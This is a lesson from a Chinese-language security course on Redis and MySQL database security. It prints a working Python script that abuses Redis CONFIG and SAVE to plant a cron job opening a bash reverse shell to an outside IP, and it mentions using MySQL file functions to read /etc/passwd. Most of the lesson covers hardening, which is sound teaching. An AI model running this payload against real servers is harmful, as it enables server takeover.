


- 00 开篇词 别说你没被安全困扰过.md.html
- 01 安全的本质：数据被窃取后，你能意识到问题来源吗？.md.html
- 02 安全原则：我们应该如何上手解决安全问题？.md.html
- 03 密码学基础：如何让你的密码变得“不可见”？.md.html
- 04 身份认证：除了账号密码，我们还能怎么做身份认证？.md.html
- 05 访问控制：如何选取一个合适的数据保护方案？.md.html
- 06 XSS：当你“被发送”了一条微博时，到底发生了什么？.md.html
- 07 SQL注入：明明设置了强密码，为什么还会被别人登录？.md.html
- 08 CSRF_SSRF：为什么避免了XSS，还是“被发送”了一条微博？.md.html
- 09 反序列化漏洞：使用了编译型语言，为什么还是会被注入？.md.html
- 10 信息泄露：为什么黑客会知道你的代码逻辑？.md.html
- 11 插件漏洞：我的代码看起来很安全，为什么还会出现漏洞？.md.html
- 13 Linux系统安全：多人共用服务器，如何防止别人干“坏事”？.md.html
- 14 网络安全：和别人共用Wi-Fi时，你的信息会被窃取吗？.md.html
- 15 Docker安全：在虚拟的环境中，就不用考虑安全了吗？.md.html
- 16 数据库安全：数据库中的数据是如何被黑客拖取的？.md.html
- 17 分布式安全：上百个分布式节点，不会出现“内奸”吗？.md.html
- 18 安全标准和框架：怎样依“葫芦”画出好“瓢”？.md.html
- 19 防火墙：如何和黑客“划清界限”？.md.html
- 20 WAF：如何为漏洞百出的Web应用保驾护航？.md.html
- 21 IDS：当黑客绕过了防火墙，你该如何发现？.md.html
- 22 RASP：写规则写得烦了？尝试一下更底层的IDS.md.html
- 23 SIEM：一个人管理好几个安全工具，如何高效运营？.md.html
- 24 SDL：怎样才能写出更“安全”的代码？.md.html
- 25 业务安全体系：对比基础安全，业务安全有哪些不同？.md.html
- 26 产品安全方案：如何降低业务对黑灰产的诱惑？.md.html
- 27 风控系统：如何从海量业务数据中，挖掘黑灰产？.md.html
- 28 机器学习：如何教会机器识别黑灰产？.md.html
- 29 设备指纹：面对各种虚拟设备，如何进行对抗？.md.html
- 30 安全运营：“黑灰产”打了又来，如何正确处置？.md.html
- 加餐1 数据安全：如何防止内部员工泄露商业机密？.md.html
- 加餐2 前端安全：如何打造一个可信的前端环境？.md.html
- 加餐3 职业发展：应聘安全工程师，我需要注意什么？.md.html
- 加餐4 个人成长：学习安全，哪些资源我必须要知道？.md.html
- 加餐5 安全新技术：IoT、IPv6、区块链中的安全新问题.md.html
- 模块串讲（一）Web安全：如何评估用户数据和资产数据面临的威胁？.md.html
- 模块串讲（三）安全防御工具：如何选择和规划公司的安全防御体系？.md.html
- 模块串讲（二）Linux系统和应用安全：如何大范围提高平台安全性？.md.html
- 结束语 在与黑客的战役中，我们都是盟友！.md.html
- 捐赠
16 数据库安全：数据库中的数据是如何被黑客拖取的？
你好，我是何为舟。
说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的SQL语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。
那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？
今天，我就以两种比较常见的数据库Redis和MySQL为例，来和你一起探讨数据库的安全。
Redis安全
我们首先来看Redis。我们都知道，Redis是一个高性能的KV结构的数据库。Redis的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。
那在安全性不高的情况下，黑客连入Redis能做什么呢？最直接的，黑客能够任意修改Redis中的数据。比如，通过一个简单FLUSHALL命令，黑客就能够清空整个Redis的数据了。
复杂一些的，黑客还可以发起权限提升，通过Redis在服务器上执行命令，从而控制整个服务器。但是，Redis本身不提供执行命令的功能，那么黑客是如何让Redis执行命令的呢？我们一起来看一下具体的代码流程。
r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.2.3.4/8080 0>&1\n\n'
path = '/var/spool/cron'
name = 'root'
key = 'payload'
r.set(key, payload)
r.config_set('dir', path)
r.config_set('dbfilename', name)
r.save()
r.delete(key) # 清除痕迹
r.config_set('dir', '/tmp')
针对这个过程，我来详细解释一下，你可以结合代码来看。
- 黑客连入Redis。
- 黑客写入一个任意的Key，对应的Value是想要执行的命令，并按照Crontab的格式进行拼接。代码如下：
*/1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1
- 黑客调用config_set方法，就是通过Redis的CONFIG命令，将Redis数据持久化的目录修改成/var/spool/cron。
- 黑客调用save方法，通过Redis的SAVE命令，发起Redis的数据持久化功能。最终，Redis将数据写入到/var/spool/cron中。写入的文件效果如下：

- Crontab对于无法解析的数据会直接跳过，因此，开头和结尾的乱码不会影响Crontab的执行。最终，Crontab会执行到Value中对应的命令。
这样一来，黑客就“聪明”地利用Redis保存文件的功能，修改了Crontab，然后利用Crontab执行了命令。
那么，我们该如何对Redis进行安全防护呢？这里就需要提到我们前面讲过的“黄金法则”和“最小权限原则”了。
首先，从认证上来说，Redis提供了最简单的密码认证功能。在Redis的配置文件中，只要增加一行requirepass 123456，我们就能够为Redis设置一个密码了。但是，这里有两点需要你注意。
- Redis的性能很高，理论上黑客能够以每秒几十万次的速度来暴力猜测密码。因此，你必须设置一个足够强的密码。我比较推荐随机生成一个32位的“数字加字母”的密码。而且Redis的密码直接保存在配置文件当中，你并不需要记忆它，需要的时候直接查看就好了。
- Redis是为了高性能而设计的。之所以Redis默认不配置密码，就是因为密码会影响性能。按照我之前的测试，加上密码之后，Redis的整体性能会下降20%左右。这也是很多开发和运维，明明知道Redis有安全风险，仍然保持无密码状态的原因。所以，是否给Redis设置密码，还需要你根据实际的情况进行权衡。
其次是进行授权。尽管Redis本身不提供授权机制，但是我们仍然可以通过“重命名”来间接地实现授权功能。我们可以在Redis的配置文件中加入rename-command CONFIG pUVEYEvdaGH2eAHmNFcDh8Qf9vOej4Ho，就可以将CONFIG功能的关键词，变成一个随机的字符串，黑客不知道这个字符串，就无法执行CONFIG功能了。而且，你仍然可以通过新的命令，来正常地使用CONFIG功能，不会对你的正常操作产生任何影响。
现在，你应该已经知道在认证和授权上，我们能使用的防护手段了。那在审计上，因为Redis只提供了基本的日志功能（日志等级分为：Debug、Verbose、Notice和Warning），实用信息不多，也就没有太多的应用价值。
除了认证和授权，如果你还想要对Redis中的数据进行加密，那你只能够在客户端中去集成相应的功能，因为Redis本身不提供任何加密的功能和服务。
最后，我们还要避免使用ROOT权限去启动Redis，这就需要用到“最小权限原则”了。在前面命令执行的例子中，黑客是通过Redis的保存功能，将命令“写入Crontab”来实现的命令执行功能。而“写入Crontab”这个操作，其实是需要ROOT权限的。因此，我们以一个低权限的用户（比如nobody）身份来启动Redis，就能够降低黑客连入Redis带来的影响了。当然，Redis本身也需要保存日志和持久化数据，所以，它仍然需要写入日志文件的权限（小于ROOT权限）来保证正常运行。
总结来说，Redis是一个极度看重性能的数据库，为了性能舍弃掉了部分的安全功能。我们可以通过“增加密码”“使用最小权限原则”和“授权”的方式，在一定程度上提升Redis的安全性。但是，这些防护手段更多的是一种缓解机制，为了保证安全性，我们最好是只在可信的网络中使用Redis。
MySQL安全
讲到这里，你现在应该也能总结出，黑客攻击数据库的主要方式，除了执行各种命令对数据库中的数据进行“增删改查”，就是在连入数据库后，通过各种手段实现命令执行，最终控制整个服务器。
那在MySQL中，黑客的攻击方式又有什么不同呢？
因为MySQL的功能十分强大，自身就提供了和本地文件交互的功能。所以，通过LOAD DATA INFILE，MySQL可以读取服务器的本地文件；通过SELECT … INTO DUMPFILE，MySQL也能够将数据写入到本地文件中。因此，在黑客连入MySQL之后，通过读文件的功能，黑客就能够对服务器的任意文件进行读取，比如敏感的/etc/passwd或者应用的源代码等；通过写文件的功能，则可以仿照Redis修改Crontab的原理，实现命令执行的功能。
相比于Redis，MySQL是一个比较成熟的数据库工具，自身的安全性就很高，所以通过正确地配置MySQL的安全选项，我们就能够获得较高的安全保障。
那么，MySQL在黄金法则和加密上，分别提供了哪些功能呢？
MySQL提供了多用户的认证体系，它将用户的相关信息（认证信息、权限信息）都存储在了mysql.user这个系统表中。利用这个系统表，MySQL可以通过增删改查操作，来定义和管理用户的认证信息、权限列表等。
除此之外，在认证上，MySQL还提供了比较完善的密码管理功能，它们分别是：
- 密码过期，强制用户定期修改密码；
- 密码重用限制，避免用户使用旧的密码；
- 密码强度评估，强制用户使用强密码；
- 密码失败保护，当用户出现太多密码错误的尝试后锁定账户。
那么，通过这些密码管理的机制，你就能够拥有一个相对安全的认证体系了。
在多用户的认证体系中，授权是必不可少的。那MySQL中的授权机制是怎样的呢？
GRANT ALL PRIVILEGES ON db.table TO user@"127.0.0.1" IDENTIFIED BY "password"
我们通过修改权限的GRANT命令来具体分析一下，MySQL授权机制中的主体、客体和请求。
- 主体（user@“127.0.0.1” IDENTIFIED BY “password”）：MySQL的主体是通过用户名、IP和密码这三个信息组合起来进行标记的。
- 客体（db.table）：MySQL的客体是数据库和表。
- 请求（ALL PRIVILEGES）：MySQL将请求的类型定义成了特权（PRIVILEGES）。常见的特权有INSERT、DELETE等增删改查操作（如果你想要了解其他更细粒度的特权，可以在官方文档中进行查看）。
除此之外，MySQL也定义了ROLE的概念，你可以基于这个功能，去实现role-BAC机制。
虽然和Redis一样，MySQL本身也不提供审计功能。但是，MySQL可以通过第三方插件，来提供审计的服务。比如McAfee提供的mysql-audit以及MariaDB Audit Plugin。这些插件能够自动收集必要的MySQL操作信息，并推送到你的ELK等日志集群中，方便你进行持续的审计操作。
在加密方面，MySQL既提供传输过程中SSL（Security Socket Layer）加密，也提供存储过程中硬盘加密。
我们首先来看MySQL的SSL加密功能。开启SSL功能，需要在配置文件中配置如下命令：
[mysqld]
ssl-ca=ca.pem
ssl-cert=server-cert.pem
ssl-key=server-key.pem
但是，这些配置并不能强制客户端使用SSL连接。想要杜绝全部非安全连接的话，我们可以在配置文件中添加require_secure_transport=ON，来进行强制限制。
接着，我们来看，MySQL中提供的硬盘加密功能。硬盘加密过程主要涉及两个密钥，一个主密钥和一个表密钥。表密钥由MySQL随机生成，通过主密钥进行加密后，存储在表头信息中。因此，每一个表格都拥有不同的密钥。
MySQL的加密功能是由keyring_file这个插件来提供的。需要注意的是，当keyring_file第一次启动的时候，它会生成一个主密钥文件在当前的系统中。你一定要备份这个密钥文件，因为它一旦丢失，数据库中的全部数据，都将因为无法解密而丢失。
现在，你应该了解了，MySQL在黄金法则上都提供了哪些功能。接下来，我们再来看“最小权限原则”。
和Redis一样，MySQL也需要避免以ROOT权限启动。不一样的是，MySQL默认提供了这样的能力，当我们在Linux中通过mysqld来启动MySQL进程的时候，mysqld会自动创建一个具备最小权限的mysql用户，并赋予这个用户对应日志文件的权限，保证MySQL拥有必要的最小权限。
总之，MySQL是一个非常成熟的数据库工具，它提供了完整的安全功能。通过对认证、授权、审计和加密功能的正确配置，你就能够迅速提升MySQL的整体安全性。
总结
今天，我们以Redis和MySQL这两种比较典型的数据库为例，对它们的安全性，以及攻破后能产生的危害进行了分析。在这里，我把安全防护的关键内容总结了一张表格，希望能够帮助你加深理解。

通过对这两种数据库的分析，我们知道，数据库面临的威胁不只存在于数据本身，也会影响到数据库所在的服务器。在数据库本身的安全防护上，我们可以通过对“黄金法则”的运用，在认证、授权、审计和加密方面，为其设置一定的保护能力。同时，为了避免数据库对服务器的衍生影响，我们也应该落实“最小权限原则”， 避免以ROOT权限去启动数据库服务。
当然，目前成熟的数据库产品肯定不止这两种。但是，我希望通过对这两种数据库的安全分析，让你掌握数据库安全的主要内容，在实际工作中，能够做到活学活用，自主去分析你用到的数据库。
思考题
最后，让我们来看一道思考题。
在实际工作，除了Redis和MySQL，你还会用到哪些数据库？你可以思考一下，这些数据库有哪些安全事项呢？你可以按照我给出的表格，试着总结出相关的安全防护手段。
欢迎留言和我分享你的思考和疑惑，也欢迎你把文章分享给你的朋友。我们下一讲再见！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.